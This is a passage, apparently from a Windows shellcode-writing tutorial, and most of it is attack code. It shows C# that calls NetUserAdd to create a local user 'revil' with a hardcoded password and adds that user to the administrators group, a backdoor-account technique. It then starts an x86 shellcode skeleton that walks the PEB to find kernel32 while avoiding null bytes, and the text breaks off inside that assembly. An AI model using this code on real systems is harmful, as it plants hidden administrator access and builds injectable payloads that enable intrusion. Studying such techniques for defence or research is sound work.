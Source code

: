 ```
        const uint UF_SERVER_TRUST_ACCOUNT = 0x2000;

        // NetUserAdd - NETAPI32.DLL
        [DllImport("netapi32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern int NetUserAdd([MarshalAs(UnmanagedType.LPWStr)] string servername, UInt32 level, IntPtr userInfo, out UInt32 parm_err);

        // NetLocalGroupAddMembers - NETAPI32.DLL
        [DllImport("NetApi32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private static extern Int32 NetLocalGroupAddMembers(string servername, string groupname, UInt32 level, ref LOCALGROUP_MEMBERS_INFO_3 buf, UInt32 totalentries);
        static void Main(string[] args)
        {
            // Add new local user
            UInt32 parm_err = 0;

            USER_INFO_1 ui = new USER_INFO_1();
            IntPtr bufptr = Marshal.AllocHGlobal(Marshal.SizeOf(ui));

            ui.sUsername = "revil";
            ui.sPassword = "Summer12345!";
            ui.uiPasswordAge = 0;
            ui.uiPriv = USER_PRIV_USER;
            ui.sHome_Dir = "";
            ui.sComment = "";
            ui.uiFlags = UF_NORMAL_ACCOUNT;
            ui.sScript_Path = "";

            Marshal.StructureToPtr(ui, bufptr, false);
            NetUserAdd(null, 1, bufptr, out parm_err);

            // Add the user to local administrators
            LOCALGROUP_MEMBERS_INFO_3 group;
            group.Domain = "revil";

            NetLocalGroupAddMembers(null, "administrators", 3, ref group, 1);

        }
    }
}
```

## Start writing the shellcode

The following part of the shellcode is the main skeleton, I won’t explain it, because contains the implementation to locate kernel32, the load process, and the symbols location that I explained before.

```
start:
    mov ebp, esp                   ;
    add esp, 0xfffff9f0            ; To avoid null bytes

find_kernel32:
    xor ecx, ecx                   ; ECX = 0
    mov esi,fs:[ecx+30h]           ; ESI = &(PEB) ([FS:0x30])
    mov esi,[esi+0Ch]              ; ESI = PEB->Ldr
    mov esi,[esi+1Ch]              ; ...